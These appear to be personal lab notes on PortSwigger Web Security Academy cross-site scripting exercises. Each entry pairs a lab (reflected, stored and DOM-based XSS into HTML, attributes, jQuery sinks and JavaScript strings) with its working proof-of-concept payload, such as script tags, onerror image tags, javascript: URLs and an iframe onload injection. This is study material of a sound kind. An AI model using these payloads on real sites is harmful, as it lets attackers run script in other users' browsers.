 ____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

# DOM XSS in jQuery selector sink using a hashchange event

```js
#<img src onerror=alert(1)>
```

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

# Reflected XSS into attribute with angle brackets HTML-encoded

```html]
"><script>alert(1)</script>
```

The value of the **search** request parameter is copied into the value of an HTML tag attribute which is encapsulated in double quotation marks. The payload **uy0y9"onfocus="alert(1)"autofocus="zkgoa** was submitted in the search parameter.

# Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```js
javascript:alert(1)
```


## Reflected XSS into a JavaScript string with angle brackets HTML encoded

![[Pasted image 20240804160039.png]]

The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. The payload **71598';alert(1)//294** was submitted in the search parameter.

![[Pasted image 20240804160323.png]]

```js
';alert(1)//
```

![[Pasted image 20240804160512.png]]








